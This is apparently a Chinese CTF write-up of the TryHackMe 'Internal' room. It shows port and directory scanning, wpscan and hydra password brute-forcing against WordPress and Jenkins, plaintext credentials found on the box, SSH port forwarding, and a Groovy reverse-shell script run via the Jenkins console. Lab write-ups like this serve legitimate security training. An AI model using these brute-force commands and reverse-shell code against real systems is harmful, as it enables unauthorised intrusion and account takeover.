```yaml
---
sidebar_position: 162
tags: [Easy, Linux, 密码破解-弱密码, 端口转发, docker]
title: "Internal"
description: "Internal"
sidebar_label: "Internal"
slug: /tryhackme/162
---
```


# Internal

## 端口扫描

```bash
root@ip-10-10-193-102:~# nmap -sTCV -p- --min-rate 1000 10.10.220.148

Starting Nmap 7.60 ( https://nmap.org ) at 2023-10-15 11:05 BST
Nmap scan report for ip-10-10-220-148.eu-west-1.compute.internal (10.10.220.148)
Host is up (0.0010s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
|_  256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (EdDSA)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 02:89:E0:C2:C5:39 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.82 seconds
```

## 80

```bash
root@ip-10-10-193-102:~# gobuster dir -u http://10.10.220.148/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.220.148/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt,html
[+] Timeout:        10s
===============================================================
2023/10/15 11:06:04 Starting gobuster
===============================================================
/index.html (Status: 200)
/blog (Status: 301)
/wordpress (Status: 301)
/javascript (Status: 301)
/phpmyadmin (Status: 301)
/server-status (Status: 403)
===============================================================
2023/10/15 11:10:23 Finished
===============================================================
```

通过目录扫描我们可以确认其是一个 wordpress 站点, 之后我使用 wpscan 扫描出其中的用户, 之后进行了再次进行了扫描, 但是没有发现什么可以利用的地方, 之后就进行了暴力破解获得了 admin 用户密码

```bash
root@ip-10-10-193-102:~/internal# wpscan --password-attack xmlrpc -t 20 -U admin -P `locate rockyou.txt` --url http://10.10.220.148/blog/
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - admin / my2boys
```

之后登陆管理员后台上传 WebShell, 就不过多说了

## 后渗透

### www-data

访问我们上传的 WebShell 就获取到了 www-data 用户的 Shell

![image-20240709195119008](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-195120.png)

### www-data —>aubreanna

在浏览 opt 目录时我发现其中有一个特殊名称的文件, 经过查看我发现其中是 aubreanna 凭证

```bash
(remote) www-data@internal:/$ ls -al /opt
total 16
drwxr-xr-x  3 root root 4096 Aug  3  2020 .
drwxr-xr-x 24 root root 4096 Aug  3  2020 ..
drwx--x--x  4 root root 4096 Aug  3  2020 containerd
-rw-r--r--  1 root root  138 Aug  3  2020 wp-save.txt
(remote) www-data@internal:/$ cd opt
(remote) www-data@internal:/opt$ cat wp-save.txt 
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bubb13guM!@#123
(remote) www-data@internal:/opt$ su aubreanna
Password: 
aubreanna@internal:/opt$ id
uid=1000(aubreanna) gid=1000(aubreanna) groups=1000(aubreanna),4(adm),24(cdrom),30(dip),46(plugdev)
```

### aubreanna —> jenkins

在用户 aubreanna 的家目录搜索时, 我发现一些特殊的文件内容

```bash
aubreanna@internal:~$ cat jenkins.txt 
Internal Jenkins service is running on 172.17.0.2:8080
```

![image-20240709195131385](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-195133.png)

从上面的这些内容中我们知道 root 用户启动了一个 jenkines 的 docker , 所以我们需要通过端口转发来实现访问这个服务

```bash
$ ssh -L  8080:127.0.0.1:8080  aubreanna@internal.thm # 使用此命令进行端口转发
.....
```

![image-20240709195139308](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-195141.png)

通过访问我们可以发现这是一个登陆窗口, 但是我们需要获取账号, 所以我们可能需要暴力破解, jenkines 的默认账号时 admin, 进行暴力破解

```bash
$ hydra -l admin -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt -s 8080  127.0.0.1 http-post-form "/j_acegi_security_check:j_username=admin&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Login:Invalid username or password"

Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-03-20 17:08:47
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking http-post-form://127.0.0.1:8080/j_acegi_security_check:j_username=admin&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Login:Invalid username or password
[8080][http-post-form] host: 127.0.0.1   login: admin   password: spongebob
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-03-20 17:09:42
```

登陆之后我搜索了如何利用 Jenkins getShell 最终获取到了如下的命令执行方式, 我们可以从下面发现确实完成了命令执行

![image-20240709195146289](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-195147.png)

接着继续搜索我发现了 rev 的方法

```bash
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

我们只需要利用此就可以获取到一个 Shell

![image-20240709195152423](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-195154.png)

### jenkins  —> root

在获取到 Docker 中搜索我最终发现在 opt 目录下也存在一个同样的笔记内容, 其中是 root 的账号

```bash
(remote) jenkins@jenkins:/opt$ cat note.txt 
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:tr0ub13guM!@#123
```